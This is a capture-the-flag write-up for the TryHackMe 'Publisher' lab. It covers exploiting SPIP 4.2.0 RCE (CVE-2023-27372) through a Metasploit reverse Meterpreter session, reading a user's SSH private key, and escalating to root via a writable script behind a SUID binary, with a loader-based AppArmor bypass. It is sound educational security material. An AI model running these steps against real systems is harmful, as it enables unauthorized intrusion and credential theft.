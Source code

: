 # Publisher — TryHackMe Writeup

**TL;DR:** SPIP 4.2.0 unauthenticated RCE (CVE-2023-27372) → www-data shell → recover SSH key for `think` → SUID `/usr/sbin/run_container` + writable `/opt/run_container.sh` → dynamic loader trick → root shell in container.

## Target
- Machine: publisher.thm
- Date: 2025-8-13
- Environment: TryHackMe / educational lab

## Tools
`nmap`, `gobuster`, `searchsploit`, `msfconsole`, `ssh`, `curl`

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -T4 -Pn -p- publisher.thm   

Output: 

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Publisher's Pulse: SPIP Insights & Tips
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
2. Directory discovery:

```bash
└─$ gobuster dir -u http://publisher.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40

/images
/spip
```
SPIP :
SPIP (Spark Project Improvement Proposals), a document for significant changes in the Spark software project; a free open-source publishing system for websites

Directory discovery for /spip :

  ```bash
└─$ gobuster dir -u http://publisher.thm/spip/ -w /usr/share/wordlists/dirb/big.txt -t 40


/local                (Status: 301) [Size: 317] [--> http://publisher.thm/spip/local/]
/vendor               (Status: 301) [Size: 318] [--> http://publisher.thm/spip/vendor/]
/config               (Status: 301) [Size: 318] [--> http://publisher.thm/spip/config/]
```
there are a config.txt file in /local :

http://publisher.thm/spip/local/config.txt

--------------------
we got the version of spip :

spip(4.2.0)
===================================================================

3. Find exploit:
```bash
└─$ searchsploit spip 4.2.0 

SPIP v4.2.0 - Remote Code Execution (Unauthenticated)       | php/webapps/51536.py

```

===================================================================

## CVE-2023-27372

 SPIP before 4.2.1 allows Remote Code Execution via form values in the public area because serialization is mishandled. Branches 3.2, 4.0, 4.1 and 4.2 are concerned. The fixed versions are 3.2.18, 4.0.10, 4.1.8, and 4.2.1.
 This PoC exploits a PHP code injection in SPIP. The vulnerability exists in the `oubli` parameter and allows an unauthenticated user to execute arbitrary commands with web user privileges.

===================================================================

4. Example Metasploit run :
```bash
msf exploit(multi/http/spip_bigup_unauth_rce) > set LHOST [Your IP]
LHOST => [IP]
msf exploit(multi/http/spip_bigup_unauth_rce) > set RHOST [Target IP]
RHOST => [IP]
msf exploit(multi/http/spip_bigup_unauth_rce) > set TARGETURI /spip/
TARGETURI => /spip/
msf exploit(multi/http/spip_bigup_unauth_rce) > run


[+] SPIP version 4.2.0 is vulnerable.
[+] The target appears to be vulnerable. Both the detected SPIP version (4.2.0) and bigup version (3.2.1) are vulnerable.
[*] Meterpreter session 1 opened (LHOST:4444 -> RHOST:52354) at 2025-8-13 08:58:31 +0300
```

--------------------

5.get shell and recover SSH key for `think` user

```bash
meterpreter > shell

id      
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cat /home/think/.ssh/id_rsa
```
---------------------
## USER-FLAG

copy the id_rsa for `think` user and past it in new file
```bash
└─$ echo '[REDACTED]' > id_rsa_think
└─$ chmod 600 id_rsa_think
└─$ ssh -i id_rsa_think think@publisher.thm

think@publisher.thm:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)

think@publisher.thm:~$ cat user.txt
[REDACTED]
```
--------------------

## ROOT-FLAG

Look to the App Armor by it's profile.


AppArmor is a Linux kernel security module that restricts applications' capabilities using per-program security profiles

---------
```bash
think@publisher.thm:~$ find / -perm -4000 2>/dev/null 

/usr/sbin/run_container

think@publisher.thm:~$ ls -la /usr/sbin/run_container
-rwsr-sr-x 1 root root 16760 Nov 14  2023 /usr/sbin/run_container
```
-------
run_container 
an application to easily manage the containers

---------
let's see what its use 
```bash
think@publisher.thm:~$ strings /usr/sbin/run_container 

/bin/bash
/opt/run_container.sh

```
here, its use bash script in /opt/
```bash
think@publisher.thm:~$ ls -la /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```
-------
its script owned by root
we can write and read and execute it.
So we gonna add a command to get sudo bash
```bash
think@publisher.thm:/$ cd /opt/
think@publisher.thm:/opt$ ls -la
ls: cannot open directory '.': Permission denied
think@publisher.thm:/opt$ echo 'bash -p' > run_container.sh
-ash: run_container.sh: Permission denied
```
---------
we can see the shell of the user think its ash not bash
its limited shell
I have used a kernel library to spawn an unconfined bash shell:

--------------
```bash
think@publisher.thm:~$ /lib/x86_64-linux-gnu/ld-2.31.so /bin/bash
think@publisher.thm:/opt$ ls -la
total 20
drwxr-xr-x  3 root root 4096 Jan 10  2024 .
drwxr-xr-x 18 root root 4096 Oct  6 17:14 ..
drwx--x--x  4 root root 4096 Nov 14  2023 containerd
-rw-r--r--  1 root root  861 Dec  7  2023 dockerfile
-rwxrwxrwx  1 root root 1715 Jan 10  2024 run_container.sh
```
---------
Now we can write and edit it. 
```bash
think@publisher.thm:/opt$ echo 'bash -p' >> run_container.sh
think@publisher.thm:/opt$ run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 2 hours

Enter the ID of the container or leave blank to create a new one: 
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container    3) Restart Container  5) Quit
2) Stop Container     4) Create Container
Choose an action for a container: 1
Error response from daemon: page not found
Error: failed to start containers: 
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
bash-5.0# cat /root/root.txt
[REDACTED]
```
